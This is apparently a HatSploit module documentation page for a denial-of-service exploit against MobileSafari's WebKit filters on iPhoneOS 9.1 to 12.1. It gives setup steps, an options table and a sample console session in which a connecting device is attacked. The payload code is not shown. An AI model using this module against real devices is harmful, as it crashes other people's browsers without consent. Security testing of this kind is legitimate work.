 # `exploit/iphoneos/mobile_safari_app/webkit_filter_dos`

## Description

iPhoneOS 9.1 till 12.1 MobileSafari.app WebKit Filter DoS.

## Verification Steps

1. Start HatSploit
2. Do `use exploit/iphoneos/mobile_safari_app/webkit_filter_dos`
3. Do: `set LHOST` to your local host
4. Do: `set LPORT` to your local port
5. Do: `run`

## Options

| Option    | Default Value         | Required | Description                |
|-----------|-----------------------|----------|----------------------------|
| `LHOST`   | `self.tcp_tools.get_local_host()` | yes      | Local host.                |
| `LPORT`   | 80                    | yes      | Local port.                |
| `FOREVER` | no                    | no       | Start http server forever. |

**LHOST**

Variable that contains local host.

**LPORT**

Variable that contains local port.

**FOREVER**

Variable that contains type of http server.

## Scenarios

```
(hsf)> use exploit/iphoneos/mobile_safari_app/webkit_filter_dos
(hsf: exploit: mobile_safari_app/webkit_filter_dos)> show options
 
Module Options
==============
 
    Option     Value           Required    Description    
    ------     -----           --------    -----------    
    LHOST      192.168.1.95    yes         Local host.    
    LPORT      80              yes         Local port.
    FOREVER    no              no          Start http server forever.
 
(hsf: exploit: mobile_safari_app/webkit_filter_dos)> run
[*] Starting http server on port 80...
[*] Serving payload on http server...
[*] Listeting for connections...
[+] Connection from 192.168.1.55!
[*] Performing WebKit Filter DoS attack...
[+] WebKit Filter DoS attack completed!
(hsf: exploit: mobile_safari_app/webkit_filter_dos)>
```
